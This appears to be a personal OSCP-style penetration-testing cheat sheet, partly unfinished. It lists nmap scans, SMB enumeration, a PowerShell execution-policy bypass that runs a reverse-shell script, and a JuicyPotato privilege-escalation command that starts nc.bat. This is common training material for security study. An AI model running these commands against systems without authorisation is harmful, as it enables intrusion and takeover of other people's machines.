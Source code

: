 # Recon

```
$ nmap -v -sSV -p [port1, port2] -Pn [host] -oN [filename]   # verbose, syn-stealth, svc versions, target ports, no-ping,
$ nmap -v -sUV -p [port1, port2] -Pn [host] -oN [filename]   # UDP
```


# Initial Exploitation

## Shells

Have a web shell? Check if server can reach you:
```
$ sudo tcpdump -i tun0 -n icmp -v
```

Execute PowerShell script non-interactively:
```
$ powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"
```


## FTP [21 TCP]


## SMB/Samba [139, 445 TCP]

Enumerate via. SMB.
```
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Check for SMB vulnerabilities.
```
$ nmap --script smb-vuln-* [target]
```



# Linux Privilege Escalation


# Windows Privilege Escalation

## Service Permissions

```
# windows/winXP
> icacls/cacls [fullpath/to/service]

# powershell
PS> Get-Acl
PS> Get-ChildItem | Get-Acl
```

## File & Folder Permissions

## Acecss Token Abuse

https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad


JuicyPotato - `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled.
```
> whoami /privs
> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c
```



# Password Cracking

Online cracker: https://crackstation.net/
